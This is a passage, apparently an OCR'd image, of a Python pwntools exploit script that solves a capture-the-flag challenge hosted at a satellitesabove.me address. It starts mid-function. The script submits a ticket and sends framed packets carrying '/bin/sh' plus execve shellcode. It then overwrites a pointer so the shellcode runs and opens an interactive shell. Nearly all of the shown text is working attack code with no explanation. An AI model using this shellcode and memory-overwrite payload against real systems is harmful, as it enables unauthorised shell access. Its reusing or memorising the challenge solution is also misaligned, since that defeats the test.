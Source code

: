 ```python
        data = data.encode()
    Hash = hash_data(data)
    payload = b'\x55\xaa'+p16(len(data)+4)+p16(Hash)+p8(y)+p8(x)
    r.send(payload)
    r.send(data+b'\x00\x00\x00\x00')

def Craw(offset, data):
    if type(data)==str:
        data = data.encode()
    return p16(offset)+p16(len(data)+4)+data

s = remote('wealthy-rock.satellitesabove.me',5010)
s.sendlineafter('please:\n','ticket{lima438314lima2:GKcI7Bfg7Afr5H7GMYaFLcoW8LRUxt-WZzORseMsW3OScGnX-MlKvTzLxVLr4KZ1lQ}')
_,ip,port = s.recvline()[:-1].split(b':')
r = remote(ip,int(port))

sc = asm('''
         mov rdi, 0x12800000
         mov rsi, 0
         mov rdx, 0
         mov rax, 0x3b
         syscall
         ''')
payload = b'/bin/sh\x00'+sc
print(len(payload))

Cwrapped(2,1,Craw(0,payload))

Cwrapped(1,1,Craw(0,b'a'*0x8+p64(0)+p64(0x12800008)))

r.interactive()
```
